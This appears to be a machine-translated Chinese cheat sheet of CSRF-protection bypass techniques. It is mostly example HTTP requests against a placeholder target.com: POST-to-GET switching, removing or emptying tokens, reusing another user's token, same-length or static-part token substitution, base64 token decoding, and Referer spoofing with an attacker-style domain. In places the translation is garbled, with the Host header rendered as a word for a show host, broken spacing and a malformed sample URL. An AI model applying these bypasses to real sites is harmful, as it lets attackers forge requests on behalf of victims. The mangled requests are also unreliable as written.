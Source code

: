 * 更改请求方法[POST=>GET]  
* 移除令牌，并提供一个空参数  
* 通过删除请求并使用该令牌来复制未使用的有效令牌  
* 使用自己的CSRF令牌将其提供给受害者  
* 将值替换为具有相同长度的标记的值 
* 对令牌进行反向工程  
* 通过HTML注入提取令牌 
* 从非格式“Content Type:application/json”或“Content Type:application/x-url-encoded”切换到“Content Type:Form multipart” 绕过正则表达式  
* 如果网站正在寻找“bank.com“在referer URL中，也许”bank.com.attcker.com“或”http://www.com/bank.cn.com”将起作用。
* 删除referer头（将此<meta name=“referer”content=“no referer”>添加到有效负载或html代码中）

### 绕过CSRF令牌   

1.更改单个字符
```
POST /register HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaab
```

2.发送空值的令牌
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token =
```

3.用相同长度的令牌替换
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaa
```
试试这个绕过
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaabaa
```
4.更改POST / GET方法
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
GET / register？username = dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa HTTP / 1.1
Host：target.com
[...]
```

5.从请求中删除令牌
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456
```

6.使用其他用户的有效令牌
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = ANOTHER_VALID_TOKEN
```

7.尝试解密哈希
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = MTIzNDU2
```
MTIzNDU2 => 123456使用base64

8.有时反CSRF令牌由两部分组成，其中一个保持静态，而另一个则动态
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = vi802jg9f8akd9j123
```
当我们再次register 时，这样的请求
```
POST /register HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = vi802jg9f8akd9j124
```
如果您注意到令牌的“ vi802jg9f8akd9j”部分保持不变，则只需要发送静态部分即可

